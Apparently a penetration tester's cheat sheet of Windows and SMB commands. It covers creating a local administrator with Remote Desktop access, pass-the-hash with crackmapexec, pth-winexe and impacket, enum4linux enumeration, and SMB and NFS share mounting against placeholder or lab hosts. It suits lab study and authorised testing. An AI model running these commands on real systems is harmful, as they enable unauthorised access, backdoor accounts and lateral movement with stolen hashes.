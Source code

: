 #### account management

*add new user*

```net user <username> <password> /add```

*add <username> to local administrators group*

```net localgroup administrators <username> /add```

*add <username> to remote desktop users group*

```net localgroup "Remote Desktop Users" <username> /add```

*start remote desktop*

```net start TermService```

-----


#### pass the hash

```crackmapexec 10.11.0.1/24 -u <username> -H <HASH_TO_PASS>```

```pth-winexe -U DOMAIN/USERNAME%HASH //target.lab cmd.exe```

```impacket-wmiexec -hashes :somehashhere someone@target.lab```

```metasploit module "auxiliary/smb_login"```

-----


#### enum4linux

*query password policy*

```enum4linux -P x.x.x.x```

*enumerate everything*

```enum4linux -a x.x.x.x```

-----


#### smbclient

*show available shares*

```smbclient -L x.x.x.x```

*interact with share*

```smbclient \\\\somewhere\\public -U <username>```

-----


#### smbmount

```mkdir /mnt/someshare```

```smbmount //winpc/shared /mnt/someshare -o username=user,password=pass,rw```

```smbmount //winpc/shared /mnt/ssomeshare -o rw  (no user + pass)```

```mount -t smbfs -o username=<username> \\\\x.x.x.x\\c$ /mnt/example```

```smbmount \\\\x.x.x.x\\c$ /mnt/example -o username=<username>```

-----
  
  
#### nfs
  
*nfs mount after rpc enum*
  
```mount -t nfs 10.10.79.161:/home ~/tmp/mount -nolock```




